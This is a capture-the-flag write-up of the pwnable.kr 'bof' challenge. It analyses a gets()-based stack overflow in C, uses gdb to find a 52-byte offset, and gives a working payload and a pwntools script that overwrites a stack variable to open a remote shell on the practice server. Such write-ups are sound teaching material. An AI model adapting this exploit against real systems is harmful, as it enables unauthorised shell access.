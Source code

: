 ﻿---
layout: post
title: pwnable.kr - bof
categories: pwn
tags : [Linux, Binary Exploitation,Buffer Overflow, code analysis, Exploit Development, c, Python]
image: pwn/bof/0.png
---

<hr>
### Introduction 
#### Hey guys it's been a long time since my [first pwn write-up](https://0xrick.github.io/pwn/fd/),  today I'll write about another challenge from [pwnable.kr](https://pwnable.kr) called bof. It was a simple easy buffer overflow challenge (You can also check [these](/categories/#binary-exploitation)), by overwriting a variable we can get a shell. I'll also write a small exploit with `pwntools` that spawns a shell automatically.
![](/images/pwn/bof/0.png)
<hr>
### Challenge Description 
```
Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000
```
#### Pretty straightforward, we have the vulnerable binary, its source code and the port where it's running. 
![](/images/pwn/bof/1.png)
<hr>
### Code Analysis 
#### Let's take a look at the code :
![](/images/pwn/bof/2.png)
```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```
#### There are two functions, the main function and another function called `func()`
#### `func()`:
```
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
```
#### Breakdown :
#### The function takes a variable called `key`, it starts by creating a variable called `overflowme` and sets a buffer of 32 chars for it : `char overflowme[32];`
#### Then it prints `overflow me :` (`printf("overflow me : ");`)  and waits for our input which will be saved in the variable `overflowme` (`gets(overflowme);`)
#### After that there's an if statement that checks if the variable `key` is equal to `0xcafebabe` (`if(key == 0xcafebabe){`). If that's true it will spawn a shell (`system("/bin/sh");`), if `key` is equal to anything else it will print `Nah..` (`printf("Nah..\n");`)
<br>
#### `main()` :
```
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
```
#### Basically what the main function is doing is just calling the function `func()` giving `key` the value of `0xdeadbeef`
<br>
#### So we need to make `key` equal to `0xcafebabe` instead of `0xdeadbeef` to make it spawn a shell. We control `overflowme` but we don't control `key`. If we can cause a buffer overflow we will be able to overwrite `key`, and obviously `overflowme` is vulnerable.
<br>
<hr>
### Examining the Binary, Exploitation
#### I ran the program and tested it a couple of times. First one with a short input :
![](/images/pwn/bof/3.png)
#### Second one with a longer input and it crashed:
![](/images/pwn/bof/4.png)
#### Important thing to note here, we don't want to know the offset or where the program exactly crashes. This is because we don't need to overwrite `EIP`, we need to overwrite a variable's value and that's located on the stack. So giving the program a pattern and finding the offset won't help because we need to know where `0xdeadbeef` is located on the stack.
#### It's time for `gdb`. I started `gdb` and created a break point at `main` (`break main`) then I started the program (`r`) : 
![](/images/pwn/bof/5.png)
#### It stopped at the break point. We need to disassemble the function `func()` to get the address of the compare instruction that compares between the value of `key` and `0xcafebabe` to set another break point there and look at the stack.
`disas func`
![](/images/pwn/bof/6.png)
#### We can see the [`cmpl` (Compare Logical)](https://www.ibm.com/support/knowledgecenter/en/ssw_aix_72/com.ibm.aix.alangref/idalangref_comp_logical_inst.htm) instruction at `0x0000654`, Lets set a break point exactly before it :
`break *0x80000654`
![](/images/pwn/bof/7.png)
#### Now let's continue the execution (`c`) and wait for our break point.
![](/images/pwn/bof/8.png)
#### I gave it a short input because we don't need to crash it and overwrite stuff on the stack, we just need to look at the stack during a normal execution to locate `0xdeadbeef`.
#### After hitting the second break point let's look at the stack :
`x/50wx $esp`
![](/images/pwn/bof/9.png)
#### `0xdeadbeef` appears at the first row in front of `0xbffff2e0` and our input starts to appear at the last row in front of `0xbffff2a0`. We can locate the distance between our input and `0xdeadbeef` easily, each hex value represents 4 chars (`0x41414141 == AAAA`) and we have exactly 13 of them before `0xdeadbeef` (`1 + 4 + 4 + 4`). 
![](/images/pwn/bof/10.png)
#### We need to give the program exactly 52 chars then `0xcafebabe` and eventually `0xdeadbeef` will be overwritten. 
#### Let's try it, I used python to print the payload in a file then I piped that file to the `nc` connection :
`python -c "print 'A' * 52 + '\xbe\xba\xfe\xca'" > ./payload`
<br>
<br>
`(cat payload && cat) | nc pwnable.kr 9000`
![](/images/pwn/bof/11.png)
#### Pwned !
<br>
<hr>
### Writing an Exploit with pwntools
#### One of the cool things about `pwntools` is the simplicity, combined with the simplicity of this exploit will make it just 4 lines of code. 
#### First thing we need to do is to import `pwntools` : `from pwn import *`
#### We need to store our payload in a variable : `payload = 'A' * 52 + '\xbe\xba\xfe\xca'`
#### Then we need to initiate the connection and assign a variable for it : `shell = remote('pwnable.kr' ,9000)`
#### After that we will send the payload : `shell.send(payload)`
#### And finally we can interact with our shell : `shell.interactive()`
![](/images/pwn/bof/12.png)
```
#!/usr/bin/python
from pwn import *

payload = 'A' * 52 + '\xbe\xba\xfe\xca'
shell = remote('pwnable.kr',9000)
shell.send(payload)
shell.interactive()
```
![](/images/pwn/bof/13.png)
#### Pwned again !
#### That's it , Feedback is appreciated !
#### Don't forget to read the [other write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
#### Previous pwn write-up : [pwnable.kr - fd](/pwn/fd/)
#### Next pwn write-up : [pwnable.kr - collision](/pwn/collision/)
<br>
<hr>
